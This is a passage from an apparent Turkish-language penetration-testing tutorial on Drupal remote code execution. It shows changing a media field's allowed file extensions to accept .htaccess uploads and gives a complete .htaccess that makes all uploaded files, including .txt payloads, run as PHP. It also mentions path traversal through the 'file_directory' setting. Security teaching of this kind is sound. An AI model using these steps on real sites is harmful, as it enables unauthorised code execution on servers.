 **Yaman alan.field.media.document.field_media_document.yml**

Ardından, ikinci girişi `file_extensions` olarak yaman: 

Dosya: field.field.media.document.field_media_document.yml
```

...

file_directory: '[date:custom:Y]-[date:custom:m]'
file_extensions: 'txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...
```
<figure><img src="../../../images/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Şuna:

Dosya: field.field.media.document.field_media_document.yml
```
...

file_directory: '[date:custom:Y]-[date:custom:m]'
file_extensions: 'htaccess txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...

```
> Bu blog yazısında kullanmıyorum ama `file_directory` girişinin keyfi bir şekilde tanımlanabileceği ve bir yol geçişi saldırısına karşı savunmasız olduğu not edilmiştir (bu nedenle Drupal dosya sistemi ağacında yukarı geri gidebiliriz).

<figure><img src="../../../images/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Bölüm 3 (özellik _Belge Ekle_ kullanma) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

Son adım en basit olanıdır ve iki alt adıma ayrılmıştır. İlk adım, Apache direktiflerini kullanmak ve .txt dosyalarının PHP motoru tarafından yorumlanmasına izin vermek için bir .htaccess formatında dosya yüklemektir. İkinci adım, payload'ımızı içeren bir .txt dosyası yüklemektir.

Dosya: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
Bu hile neden havalı?
